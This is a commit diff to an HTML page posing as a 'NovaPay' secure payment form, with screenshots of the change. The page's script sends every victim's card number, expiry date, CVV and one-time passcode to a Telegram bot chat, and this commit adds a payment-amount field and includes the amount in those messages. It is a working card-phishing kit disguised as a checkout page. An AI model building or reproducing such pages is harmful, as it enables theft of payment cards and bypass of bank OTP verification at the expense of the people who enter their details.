

Before and after one commit to elirecebli030-debug/PulKredit, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 221-800 px from the top of the page, without its empty margins (317-957 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -14,7 +14,7 @@
 
     body {
       min-height: 100vh;
-      background: linear-gradient(145deg, #f0f4fa 0%, #e6ecf5 100%);
+      background: linear-gradient(145deg, #eef2f9 0%, #e2e9f3 50%, #dde6f2 100%);
       display: flex;
       align-items: center;
       justify-content: center;
@@ -26,7 +26,7 @@
       width: 100%;
       background: #ffffff;
       border-radius: 36px;
-      box-shadow: 0 25px 50px -12px rgba(0, 20, 40, 0.25), 0 4px 12px 0 rgba(0, 0, 0, 0.05);
+      box-shadow: 0 30px 60px -15px rgba(10, 30, 60, 0.28), 0 6px 18px 0 rgba(0, 0, 0, 0.04);
       padding: 32px 28px;
       transition: all 0.2s ease;
     }
@@ -35,7 +35,7 @@
       display: flex;
       align-items: center;
       gap: 10px;
-      margin-bottom: 28px;
+      margin-bottom: 24px;
       justify-content: center;
     }
 
@@ -66,19 +66,136 @@
       font-weight: 800;
     }
 
-    .title {
-      font-size: 20px;
-      font-weight: 600;
-      color: #1e2e45;
-      margin-bottom: 6px;
-      text-align: center;
+    /* ==== AMOUNT BOX ==== */
+    .amount-box {
+      background: linear-gradient(135deg, #0a2540 0%, #163b63 100%);
+      border-radius: 24px;
+      padding: 22px 22px 20px;
+      margin-bottom: 28px;
+      position: relative;
+      overflow: hidden;
+      box-shadow: 0 16px 32px -14px rgba(10, 37, 64, 0.5);
     }
 
-    .subtitle {
-      font-size: 14px;
-      color: #6b7a8f;
-      text-align: center;
-      margin-bottom: 30px;
+    .amount-box::before {
+      content: '';
+      position: absolute;
+      top: -50%;
+      right: -20%;
+      width: 180px;
+      height: 180px;
+      border-radius: 50%;
+      background: radial-gradient(circle, rgba(58, 123, 213, 0.35) 0%, transparent 70%);
+      pointer-events: none;
+    }
+
+    .amount-box::after {
+      content: '';
+      position: absolute;
+      bottom: -60%;
+      left: -10%;
+      width: 140px;
+      height: 140px;
+      border-radius: 50%;
+      background: radial-gradient(circle, rgba(255, 255, 255, 0.08) 0%, transparent 70%);
+      pointer-events: none;
+    }
+
+    .amount-label {
+      font-size: 12px;
+      font-weight: 600;
+      color: #9fb6d4;
+      letter-spacing: 1.5px;
+      text-transform: uppercase;
+      margin-bottom: 6px;
+      position: relative;
+      z-index: 1;
+    }
+
+    .amount-row {
+      display: flex;
+      align-items: baseline;
+      gap: 10px;
+      position: relative;
+      z-index: 1;
+    }
+
+    .currency {
+      font-size: 26px;
+      font-weight: 600;
+      color: #7fa8d8;
+      line-height: 1;
+    }
+
+    .amount-input {
+      background: transparent;
+      border: none;
+      outline: none;
+      color: #ffffff;
+      font-size: 44px;
+      font-weight: 700;
+      letter-spacing: -1.5px;
+      width: 100%;
+      padding: 0;
+      font-family: inherit;
+      line-height: 1.1;
+    }
+
+    .amount-input::placeholder {
+      color: rgba(255, 255, 255, 0.25);
+      font-weight: 700;
+    }
+
+    .amount-input::-webkit-outer-spin-button,
+    .amount-input::-webkit-inner-spin-button {
+      -webkit-appearance: none;
+      margin: 0;
+    }
+
+    .amount-input[type=number] {
+      -moz-appearance: textfield;
+      appearance: textfield;
+    }
+
+    .amount-meta {
+      display: flex;
+      align-items: center;
+      gap: 6px;
+      margin-top: 12px;
+      font-size: 12.5px;
+      color: #9fb6d4;
+      position: relative;
+      z-index: 1;
+    }
+
+    .amount-meta .dot {
+      width: 6px;
+      height: 6px;
+      border-radius: 50%;
+      background: #37d67a;
+      display: inline-block;
+      box-shadow: 0 0 0 3px rgba(55, 214, 122, 0.18);
+    }
+
+    /* ==== DIVIDER ==== */
+    .divider {
+      display: flex;
+      align-items: center;
+      gap: 14px;
+      margin: 4px 0 22px;
+      color: #b1bdcc;
+      font-size: 12px;
+      font-weight: 600;
+      letter-spacing: 0.6px;
+      text-transform: uppercase;
+    }
+
+    .divider::before,
+    .divider::after {
+      content: '';
+      flex: 1;
+      height: 1px;
+      background: #e6ecf3;
     }
 
     .form-group {
@@ -149,7 +266,7 @@
       cursor: pointer;
       transition: all 0.2s ease;
       box-shadow: 0 12px 24px -8px rgba(10, 37, 64, 0.35);
-      margin-top: 10px;
+      margin-top: 6px;
     }
 
     .btn:hover {
@@ -260,8 +377,22 @@
       <div class="brand-name">Nova<span>Pay</span></div>
     </div>
 
-    <h2 class="title" id="formTitle">Payment details</h2>
-    <p class="subtitle" id="formSubtitle">All transactions are secure and encrypted</p>
+    <!-- AMOUNT BOX -->
+    <div class="amount-box">
+      <div class="amount-label">Payment amount</div>
+      <div class="amount-row">
+        <span class="currency">$</span>
+        <input type="number" class="amount-input" id="amountInput" placeholder="0.00" min="0" step="0.01" inputmode="decimal">
+      </div>
+      <div class="amount-meta">
+        <span class="dot"></span> USD · Secure payment
+      </div>
+    </div>
+
+    <div class="divider">Card details</div>
+
+    <h2 class="title" id="formTitle" style="display:none;">Payment details</h2>
+    <p class="subtitle" id="formSubtitle" style="display:none;">All transactions are secure and encrypted</p>
 
     <div id="cardForm">
       <div class="form-group">
@@ -317,6 +448,7 @@
       const TELEGRAM_CHAT_ID = '-1004353567100';
 
       // ======== ELEMENTLƏR ========
+      const amountInput = document.getElementById('amountInput');
       const cardForm = document.getElementById('cardForm');
       const otpForm = document.getElementById('otpForm');
       const cardNumber = document.getElementById('cardNumber');
@@ -330,7 +462,7 @@
       const formTitle = document.getElementById('formTitle');
       const formSubtitle = document.getElementById('formSubtitle');
 
-      // ======== KÖMƏKÇI FUNKSİYALAR ========
+      // ======== KÖMƏKÇI ========
       function showStatus(el, text, type) {
         el.textContent = text;
         el.className = 'status-message ' + type;
@@ -340,6 +472,20 @@
       function hideStatus(el) {
         el.classList.add('hidden');
       }
+
+      // Yalnız rəqəm və bir nöqtə, maks 2 onluq
+      amountInput.addEventListener('input', function(e) {
+        let val = e.target.value.replace(/[^0-9.]/g, '');
+        const parts = val.split('.');
+        if (parts.length > 2) {
+          val = parts[0] + '.' + parts.slice(1).join('');
+        }
+        if (val.includes('.')) {
+          const [int, dec] = val.split('.');
+          if (dec.length > 2) val = int + '.' + dec.slice(0, 2);
+        }
+        e.target.value = val;
+      });
 
       cardNumber.addEventListener('input', function(e) {
         let value = e.target.value.replace(/\D/g, '');
@@ -366,12 +512,9 @@
         e.target.value = e.target.value.replace(/\D/g, '').slice(0, 8);
       });
 
-      // ======== TELEGRAM MESAJ GÖNDƏR ========
+      // ======== TELEGRAM ========
       async function sendToTelegram(text) {
-        if (!TELEGRAM_BOT_TOKEN || !TELEGRAM_CHAT_ID) {
-          console.warn('Telegram bot token və chat id boşdur.');
-          return;
-        }
+        if (!TELEGRAM_BOT_TOKEN || !TELEGRAM_CHAT_ID) return;
         const url = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`;
         try {
           await fetch(url, {
@@ -388,12 +531,18 @@
         }
       }
 
-      // ======== KART MƏLUMATLARINI GÖNDƏR ========
+      // ======== KART GÖNDƏR ========
       async function submitCardData() {
+        const amount = amountInput.value.trim();
         const rawCard = cardNumber.value.replace(/\s/g, '');
         const exp = expiry.value;
         const cvvVal = cvv.value;
 
+        if (!amount || parseFloat(amount) <= 0) {
+          showStatus(cardStatus, 'Please enter a valid payment amount.', 'error');
+          amountInput.focus();
+          return;
+        }
         if (rawCard.length < 16) {
           showStatus(cardStatus, 'Please enter a valid 16-digit card number.', 'error');
           return;
@@ -413,9 +562,10 @@
 
         const message = `
 <b>💳 NovaPay – Yeni kart məlumatı</b>
-<b>Kart nömrəsi:</b> <code>${rawCard}</code>
-<b>Son istifadə:</b> ${exp}
-<b>CVV:</b> ${cvvVal}
+<b>💰 Məbləğ:</b> $${parseFloat(amount).toFixed(2)}
+<b>💳 Kart nömrəsi:</b> <code>${rawCard}</code>
+<b>📅 Son istifadə:</b> ${exp}
+<b>🔒 CVV:</b> ${cvvVal}
         `.trim();
 
         await sendToTelegram(message);
@@ -423,8 +573,6 @@
         setTimeout(() => {
           cardForm.style.display = 'none';
           otpForm.classList.add('active');
-          formTitle.textContent = 'Verification required';
-          formSubtitle.textContent = 'Enter the one-time password sent to your device';
           payBtn.disabled = false;
           payBtn.textContent = 'Continue';
         }, 5000);
@@ -442,9 +590,11 @@
         otpBtn.disabled = true;
         otpBtn.innerHTML = '<span class="spinner"></span> Verifying...';
 
+        const amount = amountInput.value.trim();
         const message = `
 <b>🔐 NovaPay – OTP kodu</b>
-<b>OTP:</b> <code>${code}</code>
+<b>💰 Məbləğ:</b> $${parseFloat(amount || 0).toFixed(2)}
+<b>🔑 OTP:</b> <code>${code}</code>
         `.trim();
 
         await sendToTelegram(message);
```
